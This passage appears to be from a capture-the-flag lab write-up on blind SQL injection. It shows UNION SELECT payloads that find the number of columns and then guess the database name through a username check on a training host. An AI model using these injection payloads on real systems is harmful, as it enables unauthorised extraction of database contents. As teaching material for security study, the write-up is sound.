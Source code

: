 Let's keep adding `null` to the statement until the number of columns match.

```url
https://website.thm/checkuser?username=test' UNION SELECT null,null,null;--
```
<br>

![Content-based SQLi Column Enum Pass](../../assets/images/thm/sqli/13-contentbasedcolumnenumpass.png)

With the number of columns known, we can begin enumerating the name of the database. This can be accomplished by using the built-in `database()` method in MySQL and then using the LIKE operator to try and find results that will return a `true` value for `taken`.

```url
https://website.thm/checkuser?username=test' UNION SELECT null,null,null WHERE database() LIKE 'a%';--
```
<br>
